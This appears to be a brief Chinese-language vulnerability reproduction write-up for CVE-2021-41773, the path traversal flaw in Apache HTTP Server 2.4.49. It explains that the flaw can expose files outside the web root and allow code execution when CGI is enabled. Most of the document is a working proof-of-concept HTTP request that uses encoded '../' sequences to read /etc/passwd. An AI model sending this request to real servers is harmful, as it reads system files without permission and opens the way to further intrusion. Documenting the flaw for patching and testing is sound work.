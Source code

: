 # CVE-2021-41773 Apache HTTP Server 路径穿越漏洞复现 
> 	Apache HTTPd 是Apache基金会开源的一款HTTP服务器。2021年10月8日Apache HTTPd官方发布安全更新，披露CVE-2021-41773 Apache HTTPd 2.4.49 路径穿越漏洞。攻击者利用这个漏洞，可以读取到Apache服务器web目录以外的其他文件，或读取web中的脚本源码，如果服务器开启CGI或cgid服务，攻击者可进行任意代码执行。

## 受影响版本
Apache HTTP Server 2.4.49

## POC
```http request
GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
Host: https://www.xxxx.com/yyy
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

